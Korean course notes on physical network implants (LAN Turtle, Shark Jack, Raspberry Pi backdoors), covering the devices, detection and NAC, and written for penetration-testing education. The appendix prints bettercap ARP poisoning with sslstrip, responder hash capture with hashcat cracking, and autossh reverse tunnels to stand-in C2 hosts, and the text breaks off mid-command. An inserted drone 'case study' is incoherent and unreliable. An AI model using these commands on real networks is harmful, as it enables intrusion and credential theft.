

# Week 05: 네트워크 임플란트 — LAN Turtle, Shark Jack, 물리 백도어

## 학습 목표
- 네트워크 임플란트의 개념과 작동 원리를 이해한다
- LAN Turtle, Shark Jack 등 주요 임플란트 장치를 분석한다
- 물리적 네트워크 백도어의 설치와 탐지 방법을 학습한다
- 네트워크 임플란트를 이용한 공격 시나리오를 설계할 수 있다
- Python 기반 네트워크 임플란트 시뮬레이션을 수행한다
- 네트워크 임플란트에 대한 방어 전략을 수립할 수 있다

## 전제 조건
- Week 01-04 이수
- 기본 네트워크 개념 (TCP/IP, ARP, DNS)
- Python 기초 프로그래밍

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 네트워크 임플란트 개론 | 강의 |
| 0:40-1:10 | LAN Turtle / Shark Jack 분석 | 강의/데모 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | 물리 백도어 기법 | 강의 |
| 2:00-2:40 | 실습: 네트워크 임플란트 시뮬레이션 | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 실습: 임플란트 탐지 | 실습 |
| 3:20-3:40 | 방어 전략 + 퀴즈 + 과제 | 토론/퀴즈 |

---

# Part 1: 네트워크 임플란트 이론

## 1.1 네트워크 임플란트란?

네트워크 임플란트(Network Implant)는 대상 네트워크에 물리적으로 설치하여 원격 접근, 트래픽 스니핑, MITM 공격 등을 수행하는 소형 장치이다.

### 임플란트의 분류

```
네트워크 임플란트 유형:
│
├── 인라인(In-line) 임플란트
│   ├── 네트워크 케이블 중간에 설치
│   ├── 트래픽 모니터링/변조
│   └── 예: LAN Turtle, Throwing Star LAN Tap
│
├── 접속형(Connected) 임플란트
│   ├── 빈 네트워크 포트에 연결
│   ├── 네트워크에 새로운 장치로 참여
│   └── 예: Shark Jack, Raspberry Pi
│
├── 무선(Wireless) 임플란트
│   ├── WiFi 기반 원격 접근
│   ├── 유선 네트워크를 무선으로 확장
│   └── 예: WiFi Pineapple, ESP32
│
└── 패시브(Passive) 탭
    ├── 트래픽 복사만 (변조 없음)
    ├── 탐지 매우 어려움
    └── 예: 광 탭, 이더넷 탭
```

### 임플란트 설치 시나리오

```
일반적인 설치 흐름:
1. 사회공학으로 건물 진입 (IT 기술자 사칭)
2. 서버룸/네트워크 캐비닛 접근
3. 임플란트 장치 설치 (30초~2분)
4. 건물 이탈
5. 원격에서 임플란트에 접속
6. 내부 네트워크 공격 수행
```

## 1.2 주요 네트워크 임플란트 장치

### LAN Turtle (Hak5)

```
LAN Turtle:
├── 외형: USB 이더넷 어댑터와 동일
├── 기능:
│   ├── Man-in-the-Middle
│   ├── DNS 스푸핑
│   ├── 리버스 셸 (SSH, OpenVPN)
│   ├── 트래픽 캡처
│   ├── 네트워크 스캔
│   └── 모듈 시스템 (확장 가능)
│
├── 설치 방법:
│   └── PC의 이더넷 포트와 벽면 포트 사이에 연결
│       [PC] ─── [LAN Turtle] ─── [Wall Port]
│
├── 은닉성:
│   ├── 크기: USB 동글 크기
│   ├── 전원: USB 포트에서 공급
│   └── 트래픽: 정상 이더넷 트래픽으로 위장
│
└── 가격: ~$60
```

### Shark Jack (Hak5)

```
Shark Jack:
├── 외형: 소형 이더넷 어댑터
├── 특징:
│   ├── 배터리 내장 (15분)
│   ├── 네트워크 정찰 자동화
│   ├── nmap 내장
│   ├── 페이로드 스위치 (3가지)
│   └── 결과 저장 (내부 스토리지)
│
├── 사용 시나리오:
│   ├── 빈 네트워크 포트에 연결
│   ├── 자동으로 네트워크 스캔
│   ├── 결과 저장 또는 C2로 전송
│   └── 회수 후 결과 분석
│
├── 페이로드 예시:
│   ├── 네트워크 매핑
│   ├── DHCP 정보 수집
│   └── 서비스 스캔
│
└── 가격: ~$60
```

### Throwing Star LAN Tap

```
Throwing Star LAN Tap:
├── 유형: 패시브 이더넷 탭
├── 기능: 이더넷 트래픽 미러링
├── 특징:
│   ├── 전원 불필요 (패시브)
│   ├── 탐지 매우 어려움
│   ├── 트래픽 변조 없음 (미러링만)
│   └── 전이중(Full-Duplex) → 반이중 변환
│
├── 구조:
│   [PC] ─J1─ [LAN Tap] ─J2─ [Network]
│                │    │
│               J3    J4
│            (TX캡처) (RX캡처)
│
└── 가격: ~$15
```

## 1.3 물리적 네트워크 백도어 기법

### Raspberry Pi 임플란트

```bash
# Raspberry Pi Zero W를 네트워크 임플란트로 구성
# 크기: 6.5 x 3cm — 네트워크 패널 뒤에 숨길 수 있음

# 기본 구성:
# 1. Raspberry Pi Zero W + OTG 이더넷 어댑터
# 2. 리버스 SSH 터널 자동 연결
# 3. WiFi로 원격 접근 (또는 셀룰러)
# 4. 자동 시작 스크립트

# autossh를 이용한 지속적 리버스 터널 (개념)
# autossh -M 0 -N -R 2222:localhost:22 attacker@C2server
```

### ESP32 WiFi 임플란트

```
ESP32 기반 임플란트:
├── 크기: 동전 크기
├── 비용: ~$5
├── 기능:
│   ├── WiFi 스니핑
│   ├── Deauth 공격
│   ├── Evil Portal
│   ├── Beacon Spam
│   └── Bluetooth 스캔
├── 전원: USB (보조 배터리 가능)
└── 은닉: 벽 뒤, 천장, 화분 안에 설치 가능
```

## 1.4 네트워크 임플란트 탐지

### 탐지 기법

| 탐지 방법 | 설명 | 효과성 |
|-----------|------|--------|
| 물리 점검 | 네트워크 장비 육안 확인 | 높음 (시간 소요) |
| MAC 주소 모니터링 | 새로운/미승인 MAC 탐지 | 중간 |
| DHCP 로그 분석 | 미승인 DHCP 요청 탐지 | 중간 |
| 네트워크 트래픽 분석 | 비정상 트래픽 패턴 탐지 | 높음 |
| 802.1X (NAC) | 미인증 장치 차단 | 매우 높음 |
| 포트 보안 | 스위치 포트별 MAC 제한 | 높음 |

---

# Part 2: 실습

## 2.1 네트워크 임플란트 시뮬레이션

```bash
# attacker VM에서 실행
ssh ccc@10.20.30.201

# 네트워크 임플란트 동작 시뮬레이션
cat << 'IMPLANT' > /tmp/network_implant_sim.py
#!/usr/bin/env python3
"""
네트워크 임플란트 시뮬레이터
LAN Turtle / Shark Jack 동작을 가상으로 재현
"""
import subprocess
import socket
import json
import time
import os

class NetworkImplant:
    def __init__(self, name, target_network="10.20.30.0/24"):
        self.name = name
        self.target = target_network
        self.results = {}
    
    def phase1_recon(self):
        """Phase 1: 네트워크 정찰"""
        print(f"\n[{self.name}] Phase 1: Network Reconnaissance")
        print("-" * 40)
        
        # ARP 스캔
        print("[*] Running ARP scan...")
        try:
            result = subprocess.run(
                ['nmap', '-sn', self.target],
                capture_output=True, text=True, timeout=30
            )
            hosts = [l for l in result.stdout.split('\n') if 'Nmap scan report' in l]
            self.results['hosts'] = hosts
            print(f"[+] Found {len(hosts)} live hosts")
            for h in hosts:
                print(f"    {h}")
        except Exception as e:
            print(f"[-] Scan error: {e}")
    
    def phase2_service_enum(self):
        """Phase 2: 서비스 열거"""
        print(f"\n[{self.name}] Phase 2: Service Enumeration")
        print("-" * 40)
        
        targets = ["10.20.30.1", "10.20.30.80", "10.20.30.100"]
        for target in targets:
            print(f"\n[*] Scanning {target}...")
            try:
                result = subprocess.run(
                    ['nmap', '-sV', '--top-ports', '20', target],
                    capture_output=True, text=True, timeout=60
                )
                services = [l for l in result.stdout.split('\n') if '/tcp' in l or '/udp' in l]
                for svc in services:
                    print(f"    {svc.strip()}")
            except Exception as e:
                print(f"[-] Error: {e}")
    
    def phase3_dhcp_info(self):
        """Phase 3: DHCP 정보 수집"""
        print(f"\n[{self.name}] Phase 3: DHCP Information")
        print("-" * 40)
        
        try:
            result = subprocess.run(
                ['ip', 'route', 'show'],
                capture_output=True, text=True
            )
            print("[+] Route table:")
            for line in result.stdout.strip().split('\n'):
                print(f"    {line}")
        except:
            pass
        
        try:
            result = subprocess.run(
                ['cat', '/etc/resolv.conf'],
                capture_output=True, text=True
            )
            print("[+] DNS servers:")
            for line in result.stdout.strip().split('\n'):
                if 'nameserver' in line:
                    print(f"    {line}")
        except:
            pass
    
    def phase4_report(self):
        """Phase 4: 결과 보고"""
        print(f"\n[{self.name}] Phase 4: Report Generation")
        print("-" * 40)
        
        report = {
            "implant": self.name,
            "timestamp": time.strftime("%Y-%m-%d %H:%M:%S"),
            "target_network": self.target,
            "hosts_found": len(self.results.get('hosts', [])),
            "status": "complete"
        }
        
        report_file = f"/tmp/implant_report_{self.name}.json"
        with open(report_file, 'w') as f:
            json.dump(report, f, indent=2)
        
        print(f"[+] Report saved to {report_file}")
        print(json.dumps(report, indent=2))

# 실행
implant = NetworkImplant("SharkJack-SIM")
implant.phase1_recon()
implant.phase2_service_enum()
implant.phase3_dhcp_info()
implant.phase4_report()
IMPLANT

python3 /tmp/network_implant_sim.py
```

## 2.2 리버스 셸 터널 시뮬레이션

```bash
# 임플란트의 C2 통신 시뮬레이션
# 실제 임플란트는 리버스 SSH/VPN으로 원격 접근 제공

# 1. 리버스 SSH 터널 개념 확인
echo "=== 리버스 SSH 터널 시뮬레이션 ==="
echo ""
echo "임플란트가 설치된 후의 원격 접근 흐름:"
echo ""
echo "  [Implant] --SSH--> [C2 Server] <--SSH-- [Attacker]"
echo "     (내부)            (외부)               (외부)"
echo ""
echo "  1. 임플란트: ssh -R 2222:localhost:22 c2server"
echo "  2. 공격자:   ssh -p 2222 localhost (C2 서버에서)"
echo "  3. 결과:     공격자가 내부 네트워크에 접근"

# 2. SSH 연결 테스트 (네트워크 연결성 확인)
echo ""
echo "[*] Testing network connectivity..."
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "  [+] $host: REACHABLE"
    else
        echo "  [-] $host: UNREACHABLE"
    fi
done

# 3. SSH 포트 확인
echo ""
echo "[*] Checking SSH access..."
for host in 10.20.30.1 10.20.30.80 10.20.30.100; do
    if nc -z -w 2 $host 22 2>/dev/null; then
        echo "  [+] $host:22 SSH OPEN"
    else
        echo "  [-] $host:22 SSH CLOSED"
    fi
done
```

## 2.3 네트워크 임플란트 탐지 실습

```bash
# 네트워크에서 미승인 장치 탐지
echo "=== 네트워크 임플란트 탐지 실습 ==="

# 1. ARP 테이블에서 미승인 장치 확인
echo "[1] ARP 테이블 점검:"
arp -a 2>/dev/null || ip neigh show

# 2. MAC 주소 벤더 확인 (임플란트 장치의 OUI)
echo ""
echo "[2] 알려진 임플란트 MAC OUI:"
echo "  Hak5 LAN Turtle: 00:13:37:xx:xx:xx"
echo "  Raspberry Pi:    B8:27:EB:xx:xx:xx, DC:A6:32:xx:xx:xx"
echo "  ESP32:           다양 (Espressif: 24:6F:28, 30:AE:A4)"

# 3. 네트워크 모니터링
echo ""
echo "[3] 네트워크 장치 모니터링:"
nmap -sn 10.20.30.0/24 2>/dev/null | grep -E "scan report|MAC Address"

# 4. DHCP 임대 확인
echo ""
echo "[4] 비정상 네트워크 활동 확인:"
ss -tuln 2>/dev/null | head -20
```

## 2.4 포트 보안 시뮬레이션

```bash
# 네트워크 접근 제어(NAC) 개념 시뮬레이션
cat << 'NAC' > /tmp/nac_simulator.py
#!/usr/bin/env python3
"""
802.1X / NAC 시뮬레이터
네트워크 접근 제어의 동작 원리 학습
"""

# 승인된 MAC 주소 DB
AUTHORIZED_MACS = {
    "00:11:22:33:44:55": "서버-1",
    "AA:BB:CC:DD:EE:FF": "워크스테이션-1",
    "11:22:33:44:55:66": "프린터-1",
}

# 탐지된 장치들
DETECTED_DEVICES = [
    {"mac": "00:11:22:33:44:55", "ip": "10.20.30.1", "vendor": "VMware"},
    {"mac": "AA:BB:CC:DD:EE:FF", "ip": "10.20.30.80", "vendor": "VMware"},
    {"mac": "00:13:37:DE:AD:00", "ip": "10.20.30.250", "vendor": "Hak5"},
    {"mac": "B8:27:EB:12:34:56", "ip": "10.20.30.251", "vendor": "Raspberry Pi"},
]

print("=" * 60)
print("  Network Access Control (NAC) Simulator")
print("=" * 60)

for device in DETECTED_DEVICES:
    mac = device["mac"]
    authorized = mac in AUTHORIZED_MACS
    status = "AUTHORIZED" if authorized else "UNAUTHORIZED"
    icon = "[+]" if authorized else "[!]"
    
    print(f"\n{icon} Device: {mac}")
    print(f"    IP:     {device['ip']}")
    print(f"    Vendor: {device['vendor']}")
    print(f"    Status: {status}")
    
    if not authorized:
        print(f"    ACTION: BLOCK port, ALERT security team")
        if "Hak5" in device["vendor"]:
            print(f"    WARNING: Known hacking tool vendor detected!")
        if "Raspberry" in device["vendor"]:
            print(f"    WARNING: Possible rogue device (SBC detected)")

print("\n" + "=" * 60)
print("  Summary: 2 authorized, 2 UNAUTHORIZED devices")
print("  Recommendation: Investigate unauthorized devices")
print("=" * 60)
NAC

python3 /tmp/nac_simulator.py
```

---

## 과제

### 과제 1: 임플란트 비교 분석 (개인)
LAN Turtle, Shark Jack, Raspberry Pi Zero 3가지 임플란트를 기능, 은닉성, 비용, 탐지 난이도 관점에서 비교 분석하라.

### 과제 2: 임플란트 탐지 스크립트 (개인)
네트워크에서 미승인 장치를 탐지하는 Python 스크립트를 작성하라.
- MAC 주소 화이트리스트 기반
- 벤더 OUI 확인
- 새로운 장치 발견 시 알림

### 과제 3: 네트워크 보안 강화 계획 (팀)
물리적 네트워크 임플란트에 대응하기 위한 보안 강화 계획을 수립하라.
- 기술적 대책 (NAC, 포트 보안)
- 물리적 대책 (케이블 관리, 잠금)
- 관리적 대책 (정기 점검, 자산 관리)

---

## 실제 사례 (WitFoo Precinct 6 — Drone + UAS)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Drone + UAS* 학습 항목 매칭.

### Drone + UAS 의 dataset 흔적 — "드론 보안 위협"

dataset 의 정상 운영에서 *드론 보안 위협* 신호의 baseline 을 알아두면, *Drone + UAS* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — GPS spoofing.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | 드론 보안 위협 |
| 정량 baseline | GPS spoofing |
| 학습 매핑 | ADS-B + jamming |

**자세한 해석**: ADS-B + jamming. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | 드론 보안 위협 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Drone + UAS = 드론 보안 위협 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — GPS spoofing.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: Aircrack-ng RF lab.


---

## 부록: 학습 OSS 도구 매트릭스 (Course16 Physical Pentest — Week 05 네트워크 임플란트·LAN Turtle·Shark Jack·물리 백도어)

> 이 부록은 본문 Part 2 의 4 lab (네트워크 임플란트 시뮬레이션 / 리버스 셸 터널 /
> 임플란트 탐지 / NAC 포트 보안) 의 모든 명령을 *실제 OSS 도구* 로 매핑한다.
> Hak5 LAN Turtle / Shark Jack 은 상용 하드웨어이지만 — 그 *소프트웨어 동작* 은
> 모두 OSS (nmap / responder / bettercap / autossh / chisel / arpwatch /
> PacketFence / FreeRADIUS) 로 1:1 재현 가능하다. 학생이 비싼 하드웨어 없이도
> *공격자 흐름* (Recon → MITM → C2 → Exfil) 과 *방어자 흐름* (탐지 → 격리 →
> 점검 → 보고) 을 모두 학습할 수 있도록 구성했다.

### lab step → 도구 매핑 표

| step | 본문 위치 | 학습 항목 | 본문 명령 | 핵심 OSS 도구 | 도구 옵션·서브명령 |
|------|----------|----------|----------|--------------|--------------------|
| s1 | 2.1 phase1 | ARP 기반 호스트 발견 | `nmap -sn 10.20.30.0/24` | nmap / arp-scan / netdiscover | `-sn -PR --send-eth` |
| s2 | 2.1 phase2 | 서비스 enumeration | `nmap -sV --top-ports 20 <ip>` | nmap / masscan | `-sV -p- --version-intensity` |
| s3 | 2.1 phase3 | DHCP / route 정보 수집 | `ip route show; cat /etc/resolv.conf` | iproute2 / dhclient -v / nmcli | `route show; resolv.conf; lease 파일` |
| s4 | 2.1 phase4 | JSON 결과 보고 | `json.dump(...)` Python | jq / yq / python3 -m json.tool | `jq -c '. | {host, port, svc}'` |
| s5 | 2.2 | 리버스 SSH 터널 (지속) | `ssh -R 2222:localhost:22` | autossh / openssh / chisel / frp | `autossh -M 0 -N -R; chisel client` |
| s6 | 2.2 | 도달성 점검 | `ping -c 1 -W 1; nc -z -w 2 :22` | iputils-ping / netcat / nmap -Pn | `nc -zv; nmap -Pn -p 22` |
| s7 | 2.3 | ARP 테이블 점검 | `arp -a / ip neigh show` | iproute2 / arp-scan -l | `ip -4 neigh; arp-scan --localnet` |
| s8 | 2.3 | MAC OUI → 벤더 식별 | "Hak5 = 00:13:37, RPi = B8:27:EB" | wireshark-common (manuf) / hwdata / ouilookup | `grep '^00:13:37' /usr/share/wireshark/manuf` |
| s9 | 2.3 | 비정상 listen 포트 | `ss -tuln` | iproute2 ss / lsof -i / netstat -tunap | `ss -tunap; lsof -i -P -n` |
| s10 | 2.4 | 802.1X / NAC 정책 | Python NAC simulator | hostapd-wpe / FreeRADIUS / PacketFence / wpa_supplicant | `wpa_supplicant -ieth0; freeradius -X` |
| s11 | 1.3 | Reverse 터널 자동 시작 | `autossh -M 0 -N -R` | systemd unit / cron / supervisord | `systemd --user; supervisorctl` |
| s12 | 1.4 | NAC 차단 룰 적용 | "포트 보안 — MAC 제한" | iptables / nftables / Cisco port-security 등가 | `nft add rule input ether saddr drop` |

### 임플란트 / 방어 도구 카테고리 매트릭스

| 카테고리 | 사례 | 대표 도구 (OSS) | 비고 |
|---------|------|----------------|------|
| **공격 — 정찰** | LAN Turtle nmap 모듈 | nmap / arp-scan / netdiscover / masscan | 본문 phase1-2 그대로 |
| **공격 — MITM** | LAN Turtle bridge MITM | bettercap / ettercap / mitmproxy / sslsplit | 인라인 트래픽 변조 |
| **공격 — credential capture** | LAN Turtle responder 모듈 | responder / Inveigh / hostapd-mana | LLMNR / NBT-NS 포이즈닝 |
| **공격 — C2 터널** | LAN Turtle SSH/OpenVPN | autossh / chisel / frp / wstunnel / Stowaway | 지속 리버스 터널 |
| **공격 — 무선 임플란트** | WiFi Pineapple / ESP32 | hostapd / hostapd-mana / Marauder firmware / Bruce | rogue AP / Evil Portal |
| **공격 — 트래픽 캡처** | Throwing Star LAN Tap | tcpdump / tshark / Wireshark / netsniff-ng | passive 패킷 |
| **공격 — 시뮬레이터** | 본문 NetworkImplant.py | python3 + scapy + netifaces | 자체 페이로드 작성 |
| **방어 — 탐지 (host)** | endpoint MAC 모니터 | arpwatch / arpalert / netdisco | 새 MAC 알림 |
| **방어 — 탐지 (network)** | NAC + 802.1X | PacketFence / FreeRADIUS / wpa_supplicant / hostapd | RADIUS 인증 거부 |
| **방어 — 탐지 (passive)** | NMS, 자산 inventory | netbox / glpi / nedi / observium | 자산 변경 알림 |
| **방어 — 탐지 (rogue AP)** | 무선 임플란트 탐지 | kismet / airodump-ng / wifite / horst | beacon ESSID anomaly |
| **방어 — 차단** | 포트 보안 | nftables / ebtables / iptables / hostapd ACL | MAC ACL |
| **방어 — 모니터링** | port flap, link state | LibreNMS / Zabbix / Prometheus + snmp_exporter | 포트 up/down 알림 |
| **방어 — 포렌식** | 임플란트 회수 후 분석 | binwalk / firmware-mod-kit / volatility | 펌웨어 분석 |

### 학생 환경 준비

```bash
# attacker VM (192.168.0.112) — 임플란트 시뮬레이션 / 공격 도구
sudo apt-get update
sudo apt-get install -y nmap arp-scan netdiscover masscan \
                         tcpdump tshark wireshark-common \
                         responder bettercap ettercap-text-only \
                         autossh openssh-client \
                         iproute2 net-tools iputils-ping netcat-openbsd \
                         lsof psmisc \
                         macchanger \
                         hostapd freeradius wpa_supplicant \
                         arpwatch \
                         jq yq python3-pip python3-venv

# Python 라이브러리 (NetworkImplant 시뮬레이터 + scapy 확장)
pip3 install --user scapy netifaces requests pyyaml

# chisel — TCP 터널 (autossh 대체, HTTP/WSS 위장)
curl -sLo /tmp/chisel.gz https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip -f /tmp/chisel.gz && sudo install -m755 /tmp/chisel /usr/local/bin/chisel

# frp — Fast Reverse Proxy (autossh 다중 포트 대체)
curl -sLo /tmp/frp.tgz https://github.com/fatedier/frp/releases/download/v0.58.1/frp_0.58.1_linux_amd64.tar.gz
tar -xzf /tmp/frp.tgz -C /tmp/
sudo install -m755 /tmp/frp_0.58.1_linux_amd64/frpc /usr/local/bin/
sudo install -m755 /tmp/frp_0.58.1_linux_amd64/frps /usr/local/bin/

# ouilookup — MAC OUI → 벤더
pip3 install --user manuf
python3 -c "from manuf import manuf; m=manuf.MacParser(); print(m.get_manuf('00:13:37:DE:AD:00'))"

# usb-implant 보호 (방어 사례 — ESP32 분석)
pip3 install --user esptool

# 검증
nmap --version | head -1
arp-scan --version 2>&1 | head -1
responder -h | head -3
bettercap -version 2>&1 | head -1
chisel --version
ip -V
ss -V
```

> **격리 환경 의무**: 본 부록의 모든 공격 도구는 *학습용 lab 네트워크* (10.20.30.0/24,
> 192.168.0.0/24 내 sandbox VM) 에서만 실행한다. 실제 회사·학교 네트워크에서
> arp-scan / responder / bettercap / hostapd-mana 사용은 *물리 침투 테스트
> 동의서 + 경영진 서면 승인 + 책임자 입회* 가 모두 갖춰진 경우에 한한다.

### 핵심 도구별 상세 사용법

#### 도구 1: nmap — 임플란트의 *정찰 모듈* (본문 phase1-2)

본문 NetworkImplant.phase1_recon() 의 `nmap -sn` 은 LAN Turtle / Shark Jack
의 가장 흔한 첫 페이로드 (`module/scan/nmap-quick`) 의 등가물이다. nmap 은
임플란트 안에서도 동일하게 동작한다 — 차이는 *권한* (root) 과 *발신 인터페이스*
(인라인 vs 접속).

```bash
# 1. ARP-only ping (임플란트가 같은 broadcast 도메인일 때 가장 정확)
sudo nmap -sn -PR 10.20.30.0/24 -oA /tmp/recon-l2

# 예상 출력:
# Nmap scan report for siem.local (10.20.30.1)
# Host is up (0.00021s latency).
# MAC Address: 00:0C:29:11:22:33 (VMware)
# Nmap scan report for 10.20.30.250
# Host is up (0.00018s latency).
# MAC Address: 00:13:37:DE:AD:00 (Hak5)   ← 임플란트 자기 자신!

# 2. 빠른 서비스 식별 (phase2 등가, --top-ports 20)
sudo nmap -sV --top-ports 20 --version-intensity 2 -T4 \
   10.20.30.1 10.20.30.80 10.20.30.100 -oA /tmp/recon-svc

# 예상 출력:
# PORT    STATE SERVICE   VERSION
# 22/tcp  open  ssh       OpenSSH 9.6p1 Ubuntu
# 80/tcp  open  http      nginx 1.24.0
# 514/udp open  syslog
# 9200/tcp open elasticsearch  ElasticSearch (Wazuh)

# 3. NSE script — DHCP 정보 + DNS recurse (phase3 보강)
sudo nmap --script=broadcast-dhcp-discover -e eth0
sudo nmap --script=dns-recursion -p 53 10.20.30.1

# 4. 출력 적재 (json) — phase4 보고와 결합
nmap --version
sudo nmap -sV -oX /tmp/recon.xml 10.20.30.0/24
python3 -c "import xml.etree.ElementTree as ET; \
            r=ET.parse('/tmp/recon.xml'); \
            print('hosts=', len(r.findall('.//host')))"
```

**실 임플란트 모방** — Shark Jack 의 `nmapper` 페이로드 한 줄 등가:

```bash
# Shark Jack default payload 와 동일한 효과
sudo nmap -sn -PR -oG - $(ip -4 -o addr show | awk '{print $4}' | head -1) \
   | tee /tmp/sharkjack-recon.txt
```

#### 도구 2: arp-scan / netdiscover — *passive · active* 임플란트 발견

본문 phase1 의 `nmap -sn` 은 ARP request 를 *active* 로 보낸다. 인접 broadcast
도메인의 모든 호스트를 5초 안에 확인 — 그러나 *passive* 모니터링 (네트워크에
조용히 앉아있다가 들리는 ARP 만 기록) 도 임플란트 회피·탐지 모두에 중요하다.

```bash
# active ARP 스캔 (default: localnet)
sudo arp-scan --localnet --interface=eth0 -r 1 -t 200

# 예상 출력:
# Interface: eth0, type: EN10MB, MAC: 00:0c:29:aa:bb:cc, IPv4: 10.20.30.50
# Starting arp-scan 1.10.0
# 10.20.30.1     00:0c:29:11:22:33  VMware, Inc.
# 10.20.30.80    00:0c:29:44:55:66  VMware, Inc.
# 10.20.30.250   00:13:37:de:ad:00  (Unknown)         ← 신규/외부 OUI
# 10.20.30.251   b8:27:eb:12:34:56  Raspberry Pi      ← 신규/외부 OUI

# OUI 파일 직접 적재 (임플란트 OUI 매칭)
sudo arp-scan --localnet --ouifile=/usr/share/arp-scan/ieee-oui.txt \
   | grep -E "Hak5|Raspberry|Espressif|Particle|Adafruit"

# passive 모드 — netdiscover (background, 30초 listen)
sudo netdiscover -i eth0 -p -t 30 | tee /tmp/passive-discover.log

# 차이:
#   active: 빠름 (5초), but 자체 ARP request 가 IDS 에 보임
#   passive: 느림 (분 단위), 완전 stealth — 단 broadcast/gratuitous ARP 만 잡힘
```

**탐지자 관점**: 정상 사무 네트워크에서 `arp-scan --localnet` 발신 자체가
이상 신호. SIEM 룰 — *동일 source MAC 에서 1초 내 ARP request > 50* 알림.

#### 도구 3: bettercap — LAN Turtle *MITM* 모듈 등가

LAN Turtle 의 `MITM` 모듈 (responder + iptables NAT + sslstrip) 은 bettercap
한 줄로 재현 가능하다. 인라인 임플란트 (PC ↔ 임플란트 ↔ wall) 가 아니어도
broadcast 도메인 안에 있기만 하면 ARP poisoning 으로 동일 효과.

```bash
# bettercap 인터랙티브 (interactive shell)
sudo bettercap -iface eth0

# bettercap shell 에서:
> set net.probe.mdns true
> set net.probe.nbns true
> net.probe on              # 호스트 발견 (passive + active 혼합)
> net.show                  # 발견 목록

# ARP poisoning + MITM (실 LAN Turtle 페이로드)
> set arp.spoof.targets 10.20.30.80
> set arp.spoof.fullduplex true       # gateway+target 양방향
> arp.spoof on
> net.sniff on                         # 패킷 캡처 시작
> net.sniff.output /tmp/sniff.pcap

# HTTP/HTTPS proxy + sslstrip
> https.proxy on
> http.proxy on
> set http.proxy.sslstrip true

# caplet 로 한 번에 (LAN Turtle 페이로드 1:1)
sudo bettercap -iface eth0 -caplet http-req-dump

# 결과 예 (sniff stream):
#  http  10.20.30.80:54321 > example.com  GET /admin
#  http  Cookie: PHPSESSID=abc123  ← exfil 대상
```

**ettercap 대체** (전통 도구):

```bash
# ettercap NG-0.8 (curses UI)
sudo ettercap -T -M arp:remote /10.20.30.1// /10.20.30.80//

# 등가 (텍스트 모드, 60초 후 자동 종료)
sudo ettercap -T -i eth0 -M arp:remote -P autoadd -l /tmp/ettercap.log \
   /10.20.30.1// /10.20.30.80//
```

**탐지** — bettercap arp.spoof 는 매 초 ARP reply 발신. arpwatch 가 즉시
*flip-flop* (동일 IP 에 다른 MAC) 알림.

#### 도구 4: responder — *credential capture* 임플란트 모듈

LAN Turtle / Shark Jack 의 인기 페이로드 `responder` 는 LLMNR / NBT-NS / mDNS
poisoning 으로 SMB / HTTP / LDAP credential 캡처. Windows 도메인 환경에서
임플란트의 *가장 빠른 ROI* 모듈.

```bash
# default — LLMNR + NBT-NS + mDNS poisoning + SMB/HTTP server
sudo responder -I eth0 -wF -v 2>&1 | tee /tmp/responder.log

# 옵션 의미:
#   -I eth0     : interface
#   -w          : WPAD rogue server (브라우저가 WPAD 자동검색 시 응답)
#   -F          : WPAD 강제 (basic auth 포함)
#   -v          : verbose

# 예상 출력 (Windows 클라이언트가 typo 도메인 접근 시):
# [LLMNR]  Poisoned answer sent to 10.20.30.80 for name fileserv1
# [SMB]    NTLMv2-SSP Hash captured for user 'alice@CORP'
# [SMB]    Hash: alice::CORP:1122334455667788:9988...

# 캡처된 hash → hashcat
hashcat -m 5600 /tmp/Responder/logs/SMB-NTLMv2-SSP-*.txt /usr/share/wordlists/rockyou.txt

# Analyze 모드 (탐지자가 — 어떤 LLMNR query 가 흐르는지만 관찰, poison 안 함)
sudo responder -I eth0 -A 2>&1 | tee /tmp/responder-analyze.log
```

**방어** — Windows GPO 로 LLMNR / NBT-NS 비활성화 + DNS 정확 등록. SIEM 에서
*소스 MAC 0x00:13:37 의 LLMNR response* 는 즉시 차단.

#### 도구 5: autossh — *지속 리버스 SSH* 터널 (본문 1.3 / 2.2 핵심)

본문 1.3 의 한 줄 `autossh -M 0 -N -R 2222:localhost:22 attacker@C2server`
는 임플란트의 *생명선* 이다. 끊겨도 자동 재연결, NAT 뒤에서도 동작.

```bash
# C2 서버에서 (외부 attacker host) — 사전 준비
# 1. C2 ssh server 의 /etc/ssh/sshd_config:
#    GatewayPorts yes        # localhost 외 listen 허용 (선택)
#    ClientAliveInterval 30
#    ClientAliveCountMax 3

# 2. 키 배포 (임플란트 → C2 단방향 키만)
ssh-keygen -t ed25519 -f /tmp/implant_key -N ''
ssh-copy-id -i /tmp/implant_key.pub implant@c2server.example.com

# 임플란트에서 (한 번만 실행 → 부팅 시 systemd 자동)
autossh -M 0 -f -N \
   -o "ServerAliveInterval=30" \
   -o "ServerAliveCountMax=3" \
   -o "ExitOnForwardFailure=yes" \
   -o "StrictHostKeyChecking=accept-new" \
